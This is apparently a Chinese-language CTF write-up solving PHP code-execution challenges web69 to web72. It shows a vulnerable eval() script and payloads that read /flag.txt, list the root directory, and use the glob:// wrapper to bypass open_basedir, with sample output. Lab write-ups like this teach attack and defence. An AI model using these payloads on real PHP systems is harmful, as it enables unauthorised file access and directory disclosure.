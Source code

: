 ## web69

这里查目录文件时，禁用了`var_dump()`，同样还有`var_export()`可用，上题两个payload都可以用

## web70

`var_export()`还可以用，文件名和路径没变，上题两个payload都还可以用

## web71

如之前一样进行操作，发现回显变成了一堆问号，下载附件，查看源码：

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);//会将字母数字替换成?
}else{
    highlight_file(__FILE__);
}
?>
```

一开始想当然去绕过无字母数字，利用位运算，参考web41，尝试发现不行，看代码，思考到只要`eval()`后面的语句不执行，就可以读取到flag，所以`c=include('/flag.txt');exit();`

## web72

附件的php源码无变化，尝试上一题的flag，回显发现读取这个文件失败，看来应该又改了文件名，这里用`c=var_export(scandir('/'));exit();`查看根目录，然后就看到这一句“open_basedir restriction in effect.”，这里用`open_basedir`限制了目录，果然如果查看当前目录是可以的，说明它限制为当前目录，

> open_basedir：将PHP所能打开的文件限制在指定的目录树中，包括文件本身。当程序要使用例如fopen()或file_get_contents()打开一个文件时，这个文件的位置将会被检查。当文件在指定的目录树之外，程序将拒绝打开

`open_basedir`的设置对`system`等命令执行函数是无效的，可以使用命令执行函数来访问限制目录。但可惜这里都被禁用了。这里就要用到glob伪协议，

> glob://是php自5.3.0版本起开始生效的一个用来筛选目录的伪协议， 功能是查找匹配的文件路径模式。由于它在筛选目录时是不受open_basedir的制约的，所以我们可以利用它来绕过限制

```
c=$a = "glob:///*";//查找根目录下所有文件
  if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
      echo $file."\n";
    }
    closedir($b);
  };exit();
//bin dev etc flag0.txt home lib media mnt opt proc root run sbin srv sys tmp usr var
```

